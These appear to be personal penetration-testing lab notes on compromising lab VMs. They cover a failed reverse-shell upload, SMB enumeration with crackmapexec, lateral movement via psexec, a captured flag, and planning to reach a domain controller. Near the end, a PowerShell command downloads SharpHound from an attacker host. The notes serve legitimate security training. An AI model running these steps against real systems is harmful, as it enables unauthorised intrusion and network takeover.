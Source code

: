 ![[Pasted image 20250307193650.png]]
- database at localhost:15432 (postgresql)
- java version 1.8.0_202-b08
- build # 14710

Looks like there's a file upload section.

and a help card. gonna try to upload a .jar reverse shell. tried several different java files and none of them worked. 

burpsuite is not working for some reason either. 

Enumerate smb using #crackmapexec 

![[Pasted image 20250308103802.png]]
This use is a local admin. Let's try to psexec. 

Psexec worked. 

![[Pasted image 20250308104342.png]]

Flag: 8e3039a71cbcc729848752c7fef354b2

PWNED **192.168.135.95** VM3. 

Enumerating this box. 

There is a powershell `dns.ps1` script 

![[Pasted image 20250308104705.png]]
- maybe another network `192.168.120.23`
- If IP is not `192.168.120.23` it changes it to `192.168.120.97`

Continuing enumeration

![[Pasted image 20250308111639.png]]
- DNS server `192.168.135.97`

Groups. No other interesting users on this box. 

![[Pasted image 20250308111808.png]]
### VM2 
`192.168.135.96`

![[Pasted image 20250308112436.png]]

### VM1 is definitely the DC. 
`**192.168.135.97**` how do we get there? 

Sharphound on VM3

`iwr -uri http://192.168.45.222/SharpHound.ps1 -OutFile SharpHound.ps1`

Bloodhound.py is better.
